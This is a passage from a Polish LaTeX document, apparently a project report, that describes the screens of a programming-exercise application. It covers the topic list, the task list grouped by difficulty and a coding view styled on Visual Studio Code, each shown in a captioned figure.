    
\includegraphics[width=0.75\linewidth]{images/frontend/figma/organisms/code_organism.png}
    \caption{Obszar kodowania.}
\end{figure}

\subsubsection{Widoki}
Pełne ekrany widoczne w aplikacji.

Ekran listy tematów wyświetla się po wejściu w aplikację przez zalogowanego użytkownika. Na ekranie widoczne są kafle tematów, z czego każdy kafel wyświetla nazwę tematu i paski postępów wykonania zadań o określonym poziomie trudności. Kafel posiada przyciski przekierowujące do widoku teorii i listy zadań.
\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/views/topic_list_view.png}
    \caption{Widok listy tematów.}
\end{figure}

Ekran listy zadań wyświetla kafelki z zadaniami przypisanymi do wybranego tematu. Kafelki pogrupowane są według poziomu trudności, wyświetlają numer zadania i stan jego wykonania. Po kliknięciu w kafel wyświetla się panel ze szczegółami zadania, z poziomu którego można przejść do widoku kodowania.
\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/views/topic_context_view.png}
    \caption{Widok listy zadań w kontekście tematu.}
\end{figure}

Widok kodowania bazuje na interfejsie graficznym edytora Visual Studio Code. Posiada główny panel z edytorem kodu oraz panele boczne z listą plików i opisem zadania.
\begin{figure}[H]
    \centering
